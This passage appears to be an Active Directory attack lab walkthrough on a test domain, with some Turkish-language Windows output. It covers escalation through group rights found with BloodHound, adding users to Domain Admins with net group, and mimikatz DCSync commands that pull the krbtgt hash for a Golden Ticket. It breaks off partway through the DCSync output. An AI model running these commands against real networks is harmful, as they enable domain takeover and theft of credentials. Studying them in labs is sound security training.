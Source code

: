 
We will check bloodhound and user has GenericAll rights for group

![image](https://user-images.githubusercontent.com/13157446/129450825-b5431b47-a3ce-4b2d-99c4-148090b4b631.png)

dontmindme user can add any user to this group

	PS C:\Users\testuser\Desktop\sharphound> net group "Domain Admins" /domain
	İstek, valhalla.local etki alanının denetleyicisinde işlenecek.

	Grup adı     Domain Admins
	Açıklama     Designated administrators of the domain

	Üyeler

	-------------------------------------------------------------------------------
	Administrator            THOR$
	Komut başarıyla tamamlandı.

	PS C:\Users\testuser\Desktop\sharphound>

Try to add with different user

	PS C:\Users\testuser\Desktop\sharphound> net group "Domain Admins" iwouldmind /add /domain
	İstek, valhalla.local etki alanının denetleyicisinde işlenecek.

	5 sistem hatası oldu.

	Erişim engellendi.

try to add with idontmind user

![image](https://user-images.githubusercontent.com/13157446/129451269-4c579420-0e72-47be-b612-1081a906bd9c.png)




# Golden Ticket

activate debug mode

	mimikatz # privilege::debug
	
	
Get krbtgt user hash and sid value (remote) (fail because authentication problem)

	mimikatz # lsadump::dcsync /domain:valhalla.local /user:krbtgt
	[DC] 'valhalla.local' will be the domain
	[DC] 'odin.valhalla.local' will be the DC server
	[DC] 'krbtgt' will be the user account
	[rpc] Service  : ldap
	[rpc] AuthnSvc : GSS_NEGOTIATE (9)
	ERROR kull_m_rpc_drsr_getDCBind ; RPC Exception 0x00000005 (5)
	
	
Get krbtgt user hash and sid value (remote) 

	mimikatz # lsadump::dcsync /domain:valhalla.local /user:krbtgt /authuser:administrator /authpassword:Pass123!
	[DC] 'valhalla.local' will be the domain
	[DC] 'odin.valhalla.local' will be the DC server
	[DC] 'krbtgt' will be the user account
	[rpc] Service  : ldap
	[rpc] AuthnSvc : GSS_NEGOTIATE (9)
	[rpc] Username : administrator
	[rpc] Domain   : 
	[rpc] Password : Pass123!
